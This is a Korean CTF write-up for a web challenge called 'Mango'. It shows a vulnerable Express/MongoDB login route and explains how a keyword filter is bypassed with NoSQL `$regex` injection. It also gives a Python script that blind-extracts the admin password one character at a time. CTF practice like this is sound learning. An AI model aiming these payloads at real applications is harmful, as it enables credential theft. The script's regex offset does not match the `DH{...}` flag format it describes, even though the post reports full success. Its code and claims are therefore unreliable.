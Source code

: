 ```yaml
---
title: "[CTF] Mango"
date: 2025-09-18 18:50:00 +0900
categories: [CTF, Web, NoSQLi]
tags: [CTF, MongoDB, NoSQLi]
description: "드림핵 Mango 문제 풀이"
author: "송지민"
toc: true
---
```


## 문제 개요
간단한 Express + MongoDB 앱이다. 로그인 엔드포인트에서 특정 단어를 포함하면 필터링을 하고, 필터를 통과하면 MongoDB에서 `uid`와 `upw`를 직접 조회한다. 플래그는 DB에 `{'uid':'admin','upw':'DH{32alphanumeric}'}` 형태로 들어있다.

문제 코드(원본 전체):

```js
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');
```

## 핵심 취약점
- `filter`는 요청 파라미터 전체를 JSON 문자열로 만들고 금지어(`admin`, `dh`, `admi`)를 포함하면 차단한다.
- 금지어 필터를 우회할 수 있다. MongoDB 질의로 `$regex`를 사용하면 쿼리가 객체 형태로 전달되어 `dump`에서 점(`.`) 같은 문자가 들어가도 금지어 문자열이 연속으로 포함되지 않을 수 있다.
- MongoDB의 정규식 기반 매칭을 이용해 플래그를 하나씩 추출할 수 있다.

## 풀이 아이디어
1. `uid`에 `admin`을 그대로 쓰면 필터에 걸리므로 우회가 필요하다. `uid[$regex]=ad.in`처럼 `.`을 끼워 넣으면 JSON 문자열에는 `ad.in` 형태로 찍혀 `admin`과 연속되지 않아 필터를 통과한다.
2. `upw`는 32자의 영숫자 조합이다. 한 글자씩 추측하면서 정규식으로 검사한다. 예를 들어 지금까지 알아낸 문자열이 `ABC`이고 다음 문자가 `x`인지 확인하려면 `upw[$regex]=D.{3}x` 와 같은 패턴(정확한 패턴은 문제 DB 형식에 맞춰 조정)을 사용해 조건에 맞는 계정을 찾는다.
3. 서버가 `result`를 반환하면 `result['uid'] === 'admin'` 이므로 응답이 `admin`이면 성공 신호로 간주하고 다음 문자로 넘어간다.

## 내가 쓴 자동화 스크립트 (Python)
아래는 사용한 PoC 스크립트(사용자 환경에 맞게 HOST를 수정해서 실행).

```python
import requests, string

HOST = 'http://TARGET:8000'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        # uid는 regex로 admin 우회, upw는 위치 기반으로 매칭
        payload = {
            'uid[$regex]': 'ad.in',           # admin 우회
            # upw 정규식 예시: ^D{N}ch  또는 문제에 맞춰 조정
            'upw[$regex]': f'D.{{{i}}}{ch}'
        }
        r = requests.get(HOST + '/login', params=payload, timeout=5)
        if r.text.strip() == SUCCESS:
            flag += ch
            print(f'Found {len(flag)}: {flag}')
            break

print(f'FLAG: DH{{{flag}}}')
```

이 스크립트는 알파벳+숫자 조합을 순회하며 `/login`을 호출하고, 응답이 `admin`이면 해당 문자를 플래그의 다음 문자로 기록한다.

## 결과
자동화로 32자를 모두 찾아 `DH{...}` 형태의 플래그를 복원했다. 필터가 문자열 단위로만 검사한다는 점을 이용해 `$regex`를 통해 쿼리를 객체로 전달하면 금지어를 우회할 수 있다.

## 마무리
Mango 문제는 단순해 보이지만 필터 로직의 한계를 이용해 NoSQL 주입/정규식 매칭으로 플래그를 추출하는 전형적인 문제였다. 소스코드와 PoC를 포함해 정리해뒀다.
